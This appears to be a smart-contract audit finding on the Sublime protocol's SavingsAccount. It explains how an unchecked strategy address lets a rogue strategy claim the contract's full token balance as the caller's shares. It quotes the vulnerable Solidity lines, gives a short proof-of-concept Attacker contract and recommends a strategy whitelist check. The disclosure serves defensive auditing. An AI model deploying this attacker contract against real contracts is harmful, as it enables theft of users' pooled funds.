 The actual amount to be locked is saved in line
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L169>
```solidity
uint256 _tokensReceived = IYield(_currentStrategy).unlockTokens(_token, _amount);
```
the rouge unlockTokens() can check asset balance of the contract and return the full amount

After that some adjustment are made to set approval for the token or to handle native assets case
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L171-L177>
```solidity
uint256 _ethValue;
if (_token != address(0)) {
    IERC20(_token).safeApprove(_newStrategy, _tokensReceived);
} else {
    _ethValue = _tokensReceived;
}
_amount = _tokensReceived;
```
Finally the assets are locked in the locked strategy and shares are allocated on attackers acount
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L179-L181>
```solidity

uint256 _sharesReceived = IYield(_newStrategy).lockTokens{value: _ethValue}(address(this), _token, _tokensReceived);

balanceInShares[msg.sender][_token][_newStrategy] = balanceInShares[msg.sender][_token][_newStrategy].add(_sharesReceived);
```

Proof of Concept

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Attacker{
    function getSharesForTokens(uint256 amount, address token) external payable  returns(uint256){
        return 0;
    }
    function unlockTokens(address token, uint256 amount) external payable returns(uint256){
        uint256 bal;
        if(token == address(0))
            bal = msg.sender.balance;
        else
            bal = IERC20(token).balanceOf(msg.sender);
        return bal;
    }
}
```
#### Recommended Mitigation Steps

Add a check for \_currentStrategy to be from strategy list like the one in line
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L159>
